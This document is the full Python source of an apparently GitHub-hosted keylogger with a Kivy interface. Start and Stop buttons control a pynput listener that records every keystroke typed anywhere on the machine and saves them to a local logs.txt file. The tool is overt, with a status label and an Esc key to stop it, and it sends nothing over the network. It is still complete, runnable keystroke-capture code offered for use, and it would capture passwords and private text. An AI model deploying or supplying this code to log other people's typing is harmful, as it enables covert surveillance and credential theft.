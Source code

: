 # Keylogger-using-Kivy

from kivy.app import App
from kivy.uix.boxlayout import BoxLayout
from kivy.uix.button import Button
from kivy.uix.label import Label
from pynput import keyboard

class Keylogger:
    def __init__(self):
        self.key_list = []
        self.is_logging = False
        self.listener = None

    def start_keylogger(self):
        self.is_logging = True
        self.log_status('Keylogger started...')

        def on_press(key):
            if self.is_logging:
                self.key_list.append(str(key))

        def on_release(key):
            if key == keyboard.Key.esc:
                self.stop_keylogger()
                return False

        self.listener = keyboard.Listener(on_press=on_press, on_release=on_release)
        self.listener.start()

    def stop_keylogger(self):
        self.is_logging = False
        self.log_status('Keylogger stopped...')

        self.listener.stop()
        self.listener.join()

        with open('logs.txt', 'w') as log_file:
            log_file.write('\n'.join(self.key_list))

        self.key_list = []

    def log_status(self, message):
        print(message)  # Update status in console or use a separate label in the UI


class KeyloggerApp(App):
    def build(self):
        self.keylogger = Keylogger()

        layout = BoxLayout(orientation='vertical', spacing=10)

        self.status_label = Label(text='Keylogger is idle', size_hint=(1, 0.2))
        layout.add_widget(self.status_label)

        self.start_button = Button(text='Start Keylogger', size_hint=(1, 0.4))
        self.start_button.bind(on_press=self.start_keylogger)
        layout.add_widget(self.start_button)

        self.stop_button = Button(text='Stop Keylogger', size_hint=(1, 0.4))
        self.stop_button.bind(on_press=self.stop_keylogger)
        self.stop_button.disabled = True
        layout.add_widget(self.stop_button)

        return layout

    def start_keylogger(self, instance):
        self.start_button.disabled = True
        self.stop_button.disabled = False
        self.keylogger.start_keylogger()
        self.status_label.text = 'Keylogger is active...'

    def stop_keylogger(self, instance):
        self.start_button.disabled = False
        self.stop_button.disabled = True
        self.keylogger.stop_keylogger()
        self.status_label.text = 'Keylogger has been stopped.'


if __name__ == '__main__':
    KeyloggerApp().run()
